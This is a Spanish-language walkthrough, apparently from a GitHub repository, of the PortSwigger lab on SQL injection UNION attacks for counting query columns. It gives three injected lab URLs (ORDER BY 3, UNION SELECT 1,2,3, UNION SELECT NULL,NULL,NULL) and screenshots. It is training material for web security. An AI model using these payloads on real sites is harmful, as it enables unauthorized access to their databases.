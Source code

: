 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/419b752f-d2a3-4e30-9772-cb9c1bfd548a)

Aunque en este caso no se ven los números en la pantalla, en realidad si pasa el laboratorio, esto debido al `NULL` y podemos saber que tenemos 3 columnas (eso pedía el lab después de todo)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/1c622ff2-4f1a-4e56-b3ff-42ab65c4887e)

Super ojito! También se pueden ingresar comandos ALV

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/d4b6d7e9-95c3-4132-bb31-5a806ce9f877)

## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)








